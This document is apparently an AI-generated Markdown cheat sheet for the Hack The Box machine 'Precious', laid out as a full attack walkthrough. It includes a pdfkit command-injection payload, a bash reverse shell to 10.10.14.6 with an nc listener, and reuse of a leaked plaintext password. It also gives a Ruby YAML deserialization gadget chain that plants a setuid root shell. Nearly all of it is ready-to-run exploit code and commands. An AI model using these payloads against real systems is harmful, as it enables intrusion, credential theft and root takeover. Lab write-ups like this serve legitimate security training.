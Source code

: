 Here’s a complete Markdown-formatted command and exploitation guide for **HTB: Precious**, organized by phase and with clear explanations 🧠💻

---

# 🧵 HTB: Precious – Command Cheat Sheet

## 🔍 Recon Phase

### Nmap Full Port + Version Scan
```bash
nmap -p- --min-rate 10000 10.10.11.189
nmap -p 22,80 -sCV 10.10.11.189
```

### Add Host Entry
```bash
echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts
```

### FFUF Subdomain Fuzzing
```bash
ffuf -u http://10.10.11.189 -H "Host: FUZZ.precious.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

### Feroxbuster Directory Brute Force
```bash
feroxbuster -u http://precious.htb
```

---

## 🖨️ Exploiting PDF Generation (Command Injection)

### Exiftool Analysis
```bash
exiftool output.pdf
# -> Shows "Generated by pdfkit v0.8.6"
```

### Vulnerability
- `pdfkit v0.8.6` vulnerable to command injection (CVE-2022-25765)

### POC to Leak `id`
```bash
http://10.10.14.6/?name=%20`id`
```

### Reverse Shell (Bash)
```bash
# Listener
nc -lnvp 443

# Payload (submit in URL field of form)
http://10.10.14.6/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"`
```

### Shell Upgrade
```bash
script /dev/null -c bash
# ^Z
stty raw -echo; fg
reset
# Terminal type? screen
```

---

## 👤 Escalating to User `henry`

### Look for Creds in `.bundle`
```bash
cat ~/.bundle/config
# => username: henry, password: Q3c1AqGHtoI0aXAYFH
```

### `su` to Henry
```bash
su - henry
# OR
sshpass -p 'Q3c1AqGHtoI0aXAYFH' ssh henry@precious.htb
```

---

## ⚙️ Privilege Escalation via Unsafe YAML

### Check Sudo Access
```bash
sudo -l
# => (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

### Vulnerable Line
```ruby
YAML.load(File.read("dependencies.yml"))
```

### Create Exploit Payload
```yaml
# dependencies.yml
---
- !ruby/object:Gem::Installer
  i: x
- !ruby/object:Gem::SpecFetcher
  i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
        socket: &1 !ruby/object:Gem::RequestSet
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module 'Kernel'
            method_id: :system
          git_set: cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
        method_id: :resolve
```

### Run Exploit
```bash
cd /dev/shm
sudo ruby /opt/update_dependencies.rb
```

### Get Root Shell
```bash
/tmp/rootbash -p
id
cat /root/root.txt
```

---

## 🔬 Beyond Root – PDFKit Debug + Local Access Fix

### Problem
- Server fails to fetch internal URLs like `http://127.0.0.1` or `http://precious.htb`.

### Fix
```bash
echo "127.0.0.1 precious.htb" | sudo tee -a /etc/hosts
```

### Result
- PDF generation works for local URLs 🎉

---

Let me know if you want this exported to a `.md` file or adapted for Obsidian / Notion, or if you'd like to keep going with more HTB boxes! 🧠💥